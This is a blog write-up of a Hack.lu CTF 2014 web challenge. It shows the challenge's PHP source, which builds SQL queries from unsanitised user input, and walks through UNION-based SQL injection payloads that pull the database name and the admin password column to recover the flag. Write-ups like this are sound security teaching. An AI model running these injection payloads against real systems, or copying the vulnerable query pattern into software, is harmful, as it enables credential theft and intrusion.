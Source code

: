 ```yaml
---
layout: post
title: "Hack.lu CTF 2014: Web 200 - Killy The Bit"
date: 2014-10-24 11:04:06.000000000 +05:30
excerpt: "A writeup for challenge in Hack.lu CTF 2014 where we used UNION Based SQL Injection technique"
type: post
published: true
status: publish
author: Nagesh Podilapu a.k.a H4rryp0tt3r
assetID: 3caacfca488c02e06aecaa04d7a52eb5
---
```


{% include image.html url="/assets/3caacfca488c02e06aecaa04d7a52eb5/killy.jpg" description="Challenge Description" %}

In this challenge they provided a link to website Royal Bank of Fluxembourg and it's source.

{% include image.html url="/assets/3caacfca488c02e06aecaa04d7a52eb5/front.jpg" description="Front page of the challenge webpage" %}

Source code of the given webpage

{% highlight php %}
<?php
include 'config.php';

echo "<html><head><style type='text/css'><!-- body {background-image: url(bg.jpg);background-repeat: no-repeat;height: Percent;width: Percent; background-size: cover;}//--></style> <title>Royal Bank of Fluxembourg</title></head></html>";

<!-- blind? we will kill you -->
if(isset($_GET['name']) && $_GET['name']!='' && !preg_match('/sleep|benchmark|and|or|\||&/i',$_GET['name'])) {
    $res = mysql_query("SELECT name,email FROM user where name='".$_GET['name']."'");

    if(mysql_fetch_object($res)) {
        // Generation of new password
        //<topsecure content>
        // this was filtered during the creation of the phps file
        //</topsecure content>
        die("A new password was generated and sent to your email address!");
    } else {


    $res = mysql_query("SELECT name,email FROM user where name sounds like '".$_GET['name']."'");

        if(mysql_fetch_object($res)) {
            echo "We couldn't find your username, but it sounds like this user:<br>";
        } else {
            die("We couldn't find your username!<br>Are you sure it is ".htmlspecialchars($_GET['name'],ENT_QUOTES, 'utf-8')."?");
        }
        $res = mysql_query("SELECT name,email FROM user where name sounds like '".$_GET['name']."'");

        while($row = mysql_fetch_object($res)) {
           echo $row->name;
           echo "<br>";
        }
    }
} else {

echo "<div style='width:800px; margin:0 auto;'><hr><h1><center>Royal Bank of Fluxembourg<center></h1><hr><br><br>Dear users,<br>We were hacked by Killy the Bit! Please use this site to generate your new password. Login will be available on the 23.10.2014 10:01 CEST<br><br><br></div>";
     echo '<div style="width:400px;margin:0 auto;"<pre><img src=wanted.png></img></pre><br><br>';
    echo '<form action="#" method="get">Please enter your username: <br><input type="text" name="name"><br><input type="submit" name="submit" value="Generate"></form></div>';
}
?>
{% endhighlight %}

After having a glance at the given code, we found that challenge Author used `where name=` in one query and `where name sounds like` in other query. So we have to exploit this challenge with the help of sounds like query.

I submitted `admia` as username so 1st query returns no results so we will move to else part of the code where sounds like query returns 1 row because admin just sounds like `admia`.

Then I quickly applied this payload

{% highlight text %}
admia' UNION select database(),2 LIMIT 1,2 --
Note: There is a whitespace after `--` in the query.
{% endhighlight %}

Results in
{% highlight text %}
We couldn't find your username, but it sounds like this user: ctf-level
{% endhighlight %}

Now we know the database name is ctf-level. And table name in `user` we can see it in given source code. And after some time admin gave a hint that password column name is `passwd`. So I made a query like this

{% highlight text %}
admia' UNION select passwd,2 from user where name='admin' LIMIT 1,2 --
Note: There is a whitespace after '--' in the query.
{% endhighlight %}

Which Results in
{% highlight text %}
We couldn't find your username, but it sounds like this user:
flag{Killy_The_Bit_Is_Wanted_for_9000_$$_FoR_FlipPing_Bits}
{% endhighlight %}

{% include image.html url="/assets/3caacfca488c02e06aecaa04d7a52eb5/flag.jpg" description="Flag being displayed in webpage" %}

Voila!! [r3b00+](https://ctftime.org/team/4882){:target="_blank"} awarded 200 pts

Thanks for Reading.. Feel free to comment :)

